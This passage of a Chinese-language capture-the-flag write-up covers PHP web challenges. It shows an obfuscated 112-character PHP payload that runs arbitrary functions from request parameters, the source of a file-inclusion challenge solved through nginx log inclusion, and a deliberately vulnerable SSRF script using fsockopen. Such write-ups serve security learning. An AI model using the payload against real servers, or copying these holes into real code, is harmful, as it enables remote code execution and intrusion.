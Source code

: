 ```php
$_=([].¥){3};$_++;$_.=++$_;$_++;$_++;$_++; $_++;$_++;$_.=([].¥){2};$_=_.$_(71).$_(69).$_(84);($$_{0})($$_{1});
```

长度为 112 字符

里面用到了一点 php7 的性质, 例如 `($a){1}` 和 `($a)($b)`, 然后又通过 `++$a` 和 `$a++` 的执行顺序差异进一步缩短长度

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210061511373.png)

## Week2

### easy_include

```php
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

nginx 日志包含

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051910358.png)

### ez_ssrf

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
}
```
